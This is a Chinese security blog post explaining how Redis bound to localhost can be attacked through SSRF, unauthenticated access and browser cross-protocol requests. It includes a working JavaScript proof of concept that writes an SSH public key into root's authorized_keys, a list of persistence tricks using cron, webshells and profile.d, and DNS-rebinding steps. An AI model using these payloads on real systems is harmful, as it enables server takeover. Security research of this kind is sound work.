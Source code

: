 ```yaml
---
id: 751
layout: post
title: 'Redis和SSRF'
date: 2016-07-20 17:57:00
author: virusdefender
tags: 安全
---
```


> 你以为bind了127.0.0.1就安全了么？

## 本地写文件

这个爆出来很久了。原理就是利用Redis的数据持久化。设置持久化文件的名称和路径，然后在Redis中写入文件内容，给Redis发送持久化的命令，这样Redis就会将数据库的内容写入执行的文件了。详细参考 http://blog.nsfocus.net/redis-unauthorized-ssh-free-password-vulnerabilities-fixes/

这个并不一定需要SSRF，如果Redis未授权访问的，那同样可以利用。

利用点

 - 写`$Home/.ssh/authorized_keys`，root用户就是`/root`，其他用户需要猜测或者遍历用户名。
 - 写`/var/spool/cron`，然后crontab定期执行，因为Redis持久化的数据可能包含其他的数据，所以写入的文件可能有一些垃圾信息，但是crontab对格式要求比较松，避免先去`flushall ` Redis。
 - 写webshell，但是得已知路径
 - slave of `$IP` 主从模式利用
 - 写`/etc/profile.d/`用户环境变量
 - AOF类型持久化，和RDB持久化类似，但是是纯文本的格式

## Redis中数据和web应用的结合

如果控制了Redis中的数据，很多时候和直接控制了数据库是一样的，可以有针对性的修改数据。参考 https://www.seebug.org/vuldb/ssvid-91879  在Redis中更改了全局变量的值，导致任意代码执行。里面有对gopher协议的利用，参考 https://blog.chaitin.com/gopher-attack-surfaces/

## Redis Lua Sandbox Escape

详情见 http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

利用了Redis的Lua支持，但是Redis的Lua是有sandbox的，不能执行任意的代码，怎么去尝试绕过？

https://gist.github.com/corsix/6575486 实现的了三个功能

 - 读取`TValue`结构体中的值
 - 读取任意内存地址上的8个字节，可以导致基地址泄露
 - 任意内存地址写8个字节

作者在多个系统和多个Redis上都测试通过，Redis已经修复这个问题 https://groups.google.com/forum/#!msg/redis-db/4Y6OqK8gEyk/Dg-5cejl-eUJ

## SSRF和CSRF结合体 看网页也能被拿shell

今天看到老外发了一个脑洞，https://ericrafaloff.com/client-side-redis-attack-poc/ 使用ajax直接给Redis发送请求，也利用的是Redis的Lua支持，原文中的Demo被我修改为写入ssh公钥的，当然上面提到的其他攻击方法都可以使用。

```js
var keydir = "/root/.ssh";
var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('eval \'' + 'redis.call(\"set\", \"hacked\", "\\r\\n\\nssh-rsa AAAAB... virusdefender@LiYangs-MacBook-Pro.local\\n\\n\\n\\n\"); redis.call(\"config\", \"set\", \"dir\", \"' + keydir + '/\"); redis.call(\"config\", \"set\", \"dbfilename\", \"authorized_keys\"); ' + '\' 0' + "\r\n");

var cmd = new XMLHttpRequest();
cmd.open("POST", "http://127.0.0.1:6379");
cmd.send('save\r\n');
```

在这里有一个最大的限制就是浏览器跨域请求的问题，根据 https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Access_control_CORS 
 简单请求是可以直接跨域发送的，但是无法收到响应，简单请求的定义如下
 
>  只使用 GET, HEAD 或者 POST 请求方法。如果使用 POST 向服务器端传送数据，则数据类型(Content-Type)只能是 application/x-www-form-urlencoded, multipart/form-data 或 text/plain中的一种。

这里符合条件，所以可以直接发送请求到Redis端口。当然，还可以利用DNS Rebinding来绕过同源策略。步骤如下

 - 解析`evil.com`到正常ip，使用比较小的TTL
 - 用户浏览页面，页面中setTimeout到100秒后发送一个ajax请求到`evil.com`
 - 解析`evil.com`到`127.0.0.1`，因为TTL很小，所以生效很快，而且浏览器也会重新发送DNS查询
 - 100秒后，请求实际被发送到了`127.0.0.1`


录了一个小视频

<video src="https://dn-virusdefender-blog.qbox.me/redis-ssrf.mp4" controls="controls"></video>

## 思考
 - 还有那些服务像Redis一样是很好利用？
 - http://www.freebuf.com/articles/web/19622.html 还有哪些跨协议攻击？



